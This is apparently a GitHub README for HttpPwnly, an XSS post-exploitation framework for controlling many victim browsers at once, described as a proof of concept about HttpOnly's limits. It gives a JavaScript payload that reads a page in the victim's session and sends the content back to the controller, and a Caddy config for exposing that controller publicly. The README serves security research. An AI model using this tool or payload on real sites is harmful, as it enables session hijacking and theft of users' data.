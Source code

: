 Original work by: Danladi https://github.com/Danladi/HttpPwnly

# HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt

## Demo:
[![Demo Video](http://img.youtube.com/vi/spfrmsbhBaw/0.jpg)](https://www.youtube.com/watch?v=spfrmsbhBaw "HttpPwnly Update Demo")


## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using caddy (https://caddyserver.com/) which is a simple but powerful web server written in golang. This is a working caddy config file:
```
0.0.0.0:443 {
tls cert.pem key.pem
proxy / localhost:5000 {
  websocket
}
}

0.0.0.0:80 {
proxy / localhost:5000 {
  websocket
}
}
```
